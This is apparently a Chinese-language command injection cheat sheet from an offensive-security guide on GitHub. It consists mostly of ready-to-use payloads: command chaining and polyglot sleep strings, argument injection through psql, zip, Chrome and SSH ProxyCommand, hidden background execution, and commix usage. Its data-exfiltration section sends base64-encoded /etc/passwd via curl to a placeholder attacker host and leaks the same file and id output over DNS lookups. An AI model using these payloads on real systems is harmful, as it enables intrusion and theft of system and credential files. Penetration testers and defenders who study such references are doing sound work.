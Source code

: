 # 命令注入漏洞

链接命令

```bash
command1; command2
command1 && command2
command1 || command2
command1 & command2
command1 | command2

# Unix和Windows系统均支持
ls||id; ls ||id; ls|| id; ls || id
ls|id; ls |id; ls| id; ls | id
ls&&id; ls &&id; ls&& id; ls && id
ls&id; ls &id; ls& id; ls & id
ls %0A id

# 仅Unix系统支持
`ls`
$(ls)
ls; id
ls${LS_COLORS:10:1}${IFS}id
```

多语言

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

枚举字典

[Command injection](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/command_injection.txt)

## 1.参数注入

SQL
```bash
psql -o'|命令'
psql -o'|id>/tmp/wolf'
```

ZIP
```bash
zip -T -m -TT '命令 #' 自定义压缩包名.zip 任意现有文件
zip -T -m -TT 'id> /tmp/whoami #' wolf.zip wolf.txt
```

Chrome
```bash
chrome '--gpu-launcher="id>/tmp/foo"'
```

SSH
```bash
ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
```

## 2.数据泄露

常见有效负载
```bash
;`curl%20--data%20%22data=$(base64%20/etc/passwd)%22%20https://攻击者主机`
```

定时攻击
```bash
/usr/bin/time sh -c 'if [ $(whoami | cut -c 1) == "r" ]; then sleep 5; fi'
```

DNS数巨泄露
```bash
for i in $(id) ; do host "$i.DNS主机地址 "; done
$(host $(cat /etc/passwd | head -n1 | sed 's/[ ,]/-/g' | tr -d '.').DNS主机地址)
```

## 3.命令置入后台

类Unix
```bash
python long_running_script.py > /dev/null 2>&1 &
```

Windows
```bash
Start-Process -FilePath "powershell" -ArgumentList "-Command `"& { .\long_running_script.ps1 > $null }`"" -WindowStyle Hidden
start /B cmd /C "long_running_script.bat > NUL 2>&1"
```

## 4.伪终端shell

Commix
```bash
commix --url="WEB应用程序URL " --cookie="Cookie值" --data="请求参数"
键入: y/yes
```

# WAF绕过

[WAF](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/waf.md)
